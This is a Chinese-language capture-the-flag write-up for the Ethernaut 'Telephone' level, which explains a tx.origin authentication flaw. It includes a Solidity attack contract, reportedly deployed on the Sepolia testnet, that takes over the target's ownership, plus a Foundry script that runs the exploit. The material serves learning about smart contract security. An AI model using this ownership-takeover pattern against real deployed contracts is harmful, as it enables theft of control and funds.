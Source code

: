 # Telephone

https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446

这份合于使用`tx.origin`作为鉴权，只要构造一个attack合约，hacker通过调用attack来调用Telephone合约即可绕过。

attack合约，这份合约已经在sepolia网络部署，地址是0xcb7C523C844Bd266a14449220F56288798AB8170，欢迎大家使用(●'◡'●)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Telephone} from "./Telephone.sol";

contract TelephoneAttack {
    address public owner;
    constructor(){
        owner = msg.sender;
    }

    // 求打赏
    function changeOwner(Telephone telephone) public payable {
        if (msg.sender != owner) {
            require(msg.value > 0.0015 ether);
        }

        telephone.changeOwner(msg.sender);
    }

    function withdraw() public {
        payable(owner).transfer(address(this).balance);
    }
}
```

WriteUp

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
import {TelephoneAttack} from "../src/TelephoneAttack.sol";
import {Telephone} from "../src/Telephone.sol";

contract TelephoneScript is Script {
    TelephoneAttack public attack;
    Telephone public telephone;

    function setUp() public {
        attack = TelephoneAttack(0xcb7C523C844Bd266a14449220F56288798AB8170);
        telephone = Telephone(0xebA9DAADbE2804454D72aD85d7a9e9C04960aa6f);
    }

    function run() public {
        vm.startBroadcast();

        attack.changeOwner(telephone);

        console.log(telephone.owner());

        vm.stopBroadcast();
    }
}
```